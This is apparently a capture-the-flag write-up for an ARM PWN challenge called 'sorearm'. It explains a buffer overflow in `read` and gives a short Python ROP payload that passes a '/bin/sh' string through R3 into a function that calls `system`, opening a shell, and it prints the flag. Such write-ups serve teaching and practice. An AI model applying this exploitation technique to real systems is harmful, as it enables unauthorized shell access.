




# sorearm

## Information
**Category:** |
--- | 
PWN|

## Solution
Here we got a ARM binary, after decompile it with IDA, we can see the main function is like this:


And we can see it call `read` which is vulnerable to bof. And in the compiler we can see another function



We can see at the b function, it call `system` with `id` as parameter. So we need to pass a `bin/sh` from a function to b function. And we can see `bin/sh` is stored on the binary

First we need to know ARM calling convention


The idea is using the rop to pass the `bin/sh` to `R3` registers, and then use the rop to move the `R3` to `R0` and call `system` with `R0` as parameter

Here, we have the `bin/sh` string and gadget that control `R3`, and `PC`. `PC` is the register that store the next instruction address
```python
POP_R3_R4_R7_PC = 0x00010527 #pop {r3, r4, r7, pc};
BINSH = 0x0001062c #bin/sh

p = cyclic(28)
p += p32(POP_R3_R4_R7_PC) + p32(BINSH) + p32(0) + p32(0) + p32(exe.sym.b+10)
```
So we can create a payload that use the rop to pass the `bin/sh` to `R3`, `0` and `0` to `R4` and `R7` and then jump to the `b` function 


> CJ2023{6fb2ad4fe1019c980a3d67b6754733ec}